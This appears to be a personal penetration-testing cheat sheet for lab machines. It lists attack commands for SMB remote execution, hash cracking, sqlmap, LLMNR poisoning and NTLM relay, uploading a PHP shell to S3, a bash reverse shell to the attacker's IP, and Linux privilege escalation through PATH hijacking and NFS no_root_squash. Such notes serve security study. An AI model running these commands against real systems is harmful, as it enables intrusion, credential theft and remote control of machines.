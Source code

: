 # Tools
Helpful resources
 - https://gowthams.gitbook.io/bughunter-handbook/  (quick reference)
 - https://exploit-notes.hdks.org (quick reference) 
 - https://portswigger.net/web-security/dashboard
 - https://cloud.hacktricks.xyz/welcome/readme
 - https://gtfobins.github.io/gtfobins/vi/#sudo
### Metasploit
 - use `exploit/...`
 - `show options`
 - `run`
 - After u r in a shell, u can put it in background using `background`.
 - Upgrade most recently opened session `sessions -u -1`.


### ZAP
 - `Tools -> Spider`
 - `Analyze -> Scan Policy Manager` remove the things u do not want to scan for, like if no DB, why SQL scanning?
 - see https://tryhackme.com/room/dastzap for authenticated scan details.

### Redis
 - `sudo apt install redis-tools`
 - `redis-cli -h {target_IP}`
 - `info`
 - `select 0` select db with index number.
 - `keys *`, list keys.
 - `get <key>`.

### xfreerdp
 - `xfreerdp /u:administrator  /v:10.129.1.13` try to connect without password.

### gobuster
 - `gobuster dir -u 10.129.145.11 -w ~/SecLists/Discovery/Web-Content/common.txt`

### mongo
 - ./mongo mongodb://{target_IP}:27017
 - help
 - show dbs;
 - use <db_name>;
 - show collections;
 - db.<collection_name>.find().pretty();

### rsync
 - `rsync --list-only 10.129.204.156::` list directories.
 - `rsync --list-only 10.129.204.156::public` list files within directory, here named public.
 - `rsync {target_IP}::public/flag.txt flag.txt` bring remote flag.txt in my machine.

### Mysql
 - `mysql -h <ip> -u root` to login.
 - SHOW databases; : Prints out the databases we can access.
 - USE {database_name}; : Set to use the database named {database_name}.
 - SHOW tables; : Prints out the available tables inside the current database.
 - SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.

### AWS s3
 - aws --endpoint=http://s3.thetoppers.htb s3 ls
 - aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
 - `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` to upload

### SSH tunneling
 - `ssh -L 1234:localhost:5432 christine@{target_IP}` locally we will be listening to 1234

### SMB
 - `smbclient \\\\10.10.10.131\\ADMIN$ -U Administrator` list.
 - `smbclient -L 10.129.27.203 -U administrator`.
 - `python psexec.py username:password@hostIP`.
 -  `psexec.py administrator@10.10.10.131`.

### John
 - `zip2john backup.zip > zip.hashes` dumps hashes to file.
 - `john zip.hashes` cracks the password.

### Hashcat
 - `hashcat -a 0 -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt` crack md5.
 - `hashcat -m 5600 hash.txt rockyou.txt` crach ntlm.

## Scanning
### nmap
 - `nmap --script=smb2-security-mode.nse -p445 <network>/24` find devices with smb signing disabled.
### Rustscan
 - `./rustscan -a 10.129.95.185 -r 1-65535` maybe use rustscan to find open ports first, and then use nmap for service detection and stuff.
 - `rustscan -a 10.10.10.161 -r 1-65535 | grep ^[0-9] |  cut -d '/' -f 1 | tr '\n' ','`, and then can use the ports in nmap
### sqlmap
 - `sqlmap -u "http://10.129.29.21/dashboard.php?search=%27" --cookie="PHPSESSID=f0mn05nbrdadh5164gavl9q4un"`

### Responder
 - `sudo ./test/bin/python Responder.py -I vboxnet0 -rdwv` listen and respond for LLMNR poisioning.
 - `impacket-ntlmrelayx -tf targets.txt -smb2support` pass the hash, targets.txt has victims ip, `-i` to get interactive smb shell, `-e meterpreter.exe`.

### ldap
 - `ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161`, -x to check for anonymous login.

### Windapsearch
 - https://github.com/ropnop/windapsearch
 - Requirements to install `udo apt-get install libsasl2-dev python3-dev libldap2-dev libssl-dev `.
 - Enumerate user `python3 windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U `.
 - `python3 windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "objectClass=*"`.
## Upgrading shell with TTY session
 - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
### bash
 - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`, reverse shell.
 - `sudo -l` check sudo permissions.
 - 

# Privilige escalation
### Linux
 - `id` see what groups we are a part of, google to see if these groups have any extra permissions.
 - `sudo -l` check sudo permissions.
 - `getcap -r / 2>/dev/null` to see the capabilities.
 - Check GTFO bin `https://gtfobins.github.io/`.
 - `find / -group <group_name> 2>/dev/null` to find file with certain group permissions.
 - `ls -al` to check if file has sudo permission.
 - If a file uses common binary insecurely, i.e. cat, wihtout fill path, we do create a new file in /tmp like `/tmp/cat`, the content of cat `/bin/sh`
 - and set `export PATH=/tmp:$PATH`, finally run the `suid` bit set file that runs `cat`, we might get it.
 - Scripts that check
  - LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/
  - LinEnum: https://github.com/rebootuser/LinEnum
  - LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
  - Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
  - Linux Priv Checker: https://github.com/linted/linuxprivchecker
 - network mound, if no_root_sqash present `showmount -e victimsIP` `mount -o rw ip:/victimdir local_dir/` make file with suid bit set in local_dir change owner to root run in victims machine.
 - Check for any cronjob, that we can manipulate.

### Windows
 - `whoami /priv` to see what priviliges you have.
 - See wierd folders and files.
 - `schtasks` in cmd or `ps` in powershell to see processes.
 - 
